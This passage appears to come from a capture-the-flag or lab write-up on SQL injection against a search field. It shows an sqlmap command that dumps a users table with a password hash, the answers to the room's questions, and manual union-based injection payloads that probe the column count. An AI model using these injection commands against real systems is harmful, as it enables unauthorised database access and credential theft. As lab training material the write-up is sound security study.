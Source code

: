 ```bash
sqlmap -r search.req -p searchitem --dbms mysql --batch -D db -T users --dump
```

```bash
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```


#### What was the username associated with the hashed password?

> agent47


#### What was the other table name?

> post


## MySQL Injection Manually (Union Based)
---

> [Portswigger SQLI Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


### Get Column Length in current table

```bash
'UNION SELECT ALL NULL,NULL -- -
```

![](/assets/obsidian/73d59e4f92c2b691b57229213ee24e83.png)

success on 3 columns

```bash
'UNION SELECT ALL NULL,NULL,NULL -- -
```
